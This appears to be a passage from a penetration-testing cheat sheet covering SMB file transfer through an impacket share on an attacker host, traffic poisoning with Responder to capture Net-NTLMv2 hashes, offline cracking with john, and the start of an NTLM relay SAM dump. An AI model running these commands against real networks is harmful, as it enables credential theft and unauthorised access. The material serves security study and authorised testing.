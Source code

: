 #### SMB

In case of needing file upload and file download, we will create an `SMB` shared folder:

```bash
impacket-smbserver smbFolder $(share) -smb2support
```

Then, we can use the following command in the target machine to download the file:

```powershell
copy \\10.10.10.2\smbFolder\file
```

If we want to upload files to the shared `SMB` folder, we can mount it. To do this:

```powershell
net use x: \\10.10.10.2\smbFolder\
net use # Para listar los recursos compartidos en red
copy file X:\file
```

If we want to unmount the shared folder:

```powershell
net use x: /delete
```


### SMB Relay

This vulnerability abuses  failled `SMB` connections. The most used tool for this is `Responder.py`. `Responder` is a tool that poisons network traffic, it can be configured in the  `/usr/share/responder/Responder.conf` directory. To poison the trafic with `Responder`:

```bash
python3 Responder.py -I eth0 -rdw
```

This tool will show us the `Net-NTLMv2` hashes of the users having failed `SMB` connections. Have in mind that `Net-NTLMv2` hashes are not usable to do  `PassTheHass`, but they can be cracked offline. 

To crack `Net-NTLMv2` hashes:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes
```


### NTLM Relay

#### ¿How to know if target is vulnerable?

`SMB`doesn't have to be signed.

#### Dump SAM

Change the configuration of Responder in `/usr/share/responder/Responder.conf`. We have to  switch `Off` `SMB` and `HTTP`.
